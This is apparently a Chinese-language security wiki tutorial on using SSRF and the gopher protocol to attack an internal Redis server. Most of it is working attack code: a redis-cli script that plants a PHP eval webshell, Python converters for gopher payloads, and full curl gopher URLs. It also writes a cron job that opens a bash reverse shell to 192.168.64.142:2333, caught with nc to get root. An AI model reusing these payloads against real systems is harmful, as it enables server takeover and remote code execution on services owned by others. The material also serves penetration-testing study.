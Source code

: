 #### gopher 攻击内网redis

> 未授权访问redis条件存在限制，若开启了protected-mode，外网访问是不具有写入权限的；若绑定了127.0.0.1，那么外网将无法访问；但如果存在SSRF漏洞，那么通过Gopher协议可对本地redis进行攻击
> 
> Gopher协议是HTTP协议出现之前，在Internet上常常和常用的一个协议。当然现在Gopher协议已经慢慢淡出历史.Gopher
> 协议可以做很多事情，特别是在SSRF中可以发挥很多重要的作用。利用此协议可以攻击内网的FTP，Telnet，Redis，Memcache，也可以进行GET，POST请求。这无疑极大拓宽了SSRF的攻击面。
> 
> payload：gopher://www.baidu.com:port/_payload

##### 写入webshell

将一下命令打包成gopher.sh文件

```bash
redis-cli -h $1 -p $2 set 1 '<?php eval($_POST["pass"]);?>'
redis-cli -h $1 -p $2 config set dir /var/www/html
redis-cli -h $1 -p $2 config set dbfilename bbb.php
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit

```

使用socat进行端口转发

```bash
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379

```

将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行`./gopher.sh 127.0.0.1 4444`，抓取到数据并写入`1.txt`：

![](images/security_wiki/15906394926932.jpg)


**将捕捉到的转换为gopher格式**

**python转换脚本：**

```python
f = open('1.txt', 'r')
s = ''
for line in f.readlines():
        line = line.replace(r"\r", "%0d%0a")
        line = line.replace("\n", '')
        s = s + line
print s.replace("$", "%24")

```

此处需要注意，使用python脚本将流量内容转换后，还需要将一句话中的`$、?、;、[、]`这几个字符url编码，否则会提示`curl: (3) [globbing] illegal character in range specification at pos 103`

如果写入免杀的一句话，一步步fuzz即可。

**模拟ssrf访问**：

```bash
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a1%0d%0a%2429%0d%0a%3c%3fphp eval(%24_POST%5b"pass"%5d)%3b%3f%3e%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2413%0d%0a/var/www/html%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%247%0d%0abbb.php%0d%0a*1%0d%0a%244%0d%0asave%0d%0a*1%0d%0a%244%0d%0aquit%0d%0a'

```

![](images/security_wiki/15906395108834.jpg)


成功在`/var/www/html/`下生成`bbb.php`

#### 反弹shell

> 文件名必须为root，此处靶机环境为centos7，其他Linux需要修改目录
> 
> 首先要明确第一点，用写入crontab的方式要求redis必须是root用户启动，否则无法正常执行

将下列内容写入gopher.sh中：

```bash
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.64.142 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit

```

**本地监听**：

```bash
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379

```

执行`gopher.sh`并捕捉到流量，将其写入至`1.txt`：

![](images/security_wiki/15906395318196.jpg)


**将捕捉到的转换为gopher格式**

**python转换脚本：**

```python
#coding: utf-8
import sys

exp = ''

with open(sys.argv[1]) as f:
    for line in f.readlines():
        if line[0] in '><+':
            continue
        elif line[-3:-1] == r'\r':
            if len(line) == 3:
                exp = exp + '%0a%0d%0a'
            else:
                line = line.replace(r'\r', '%0d%0a')
                line = line.replace('\n', '')
                exp = exp + line
        elif line == '\x0a':
            exp = exp + '%0a'
        else:
            line = line.replace('\n', '')
            exp = exp + line
print exp

```

转换结果为：

```bash
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a

```

P.S. 需要注意的是，如果要换IP和端口，前面的$63也需要更改，$63表示字符串长度为63个字节

**模拟ssrf访问**：

```bash
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a'
* About to connect() to 127.0.0.1 port 6379 (#0)
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
+OK
+OK
+OK

```

在攻击机中`nc -lvp 2333`获得root权限shell

![](images/security_wiki/15906395613036.jpg)


